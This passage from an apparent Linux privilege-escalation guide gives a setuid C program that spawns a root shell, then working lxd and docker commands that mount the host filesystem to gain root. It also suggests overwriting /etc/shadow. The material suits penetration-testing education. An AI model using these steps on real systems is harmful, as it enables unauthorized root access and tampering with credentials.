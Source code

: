 ```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

### Abusing Excessive Groups {#abusing-excessive-groups}

Often you'll find that a user has been made a member of a group that it needn't be a part of. From this you can abuse this to either leak information or compromise the system in unintended ways.

When first enumerating a group, see what it can access and what special permissions may be afforded it as so:

```text
find / -group groupname 2>/dev/null
```

**adm**

The admin group, adm, allows the user to view logs in `/var/log`. Whilst this is not directly exploitable, it can be used to leak sensitive information, such as user actions, vulnerable applications and any potentially hidden cron-jobs.

**lxd**

If a member of the lxd gorup, the user can use this to escalate to root, and potentially escape any containers it is a member of.

```text
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

By doing this we effectively have root permissions. While you won't be able to run arbitrary code on the host, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the /etc/shadow folder.

The [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) is ideal for engagements, as it's no larger than 4MB.

**docker**

In much the same vein as lxd, we can utilise the docker group to get full root privileges.

```text
docker run -v /:/mnt/rootfs -i -t chrisfosterelli/rootplease
```
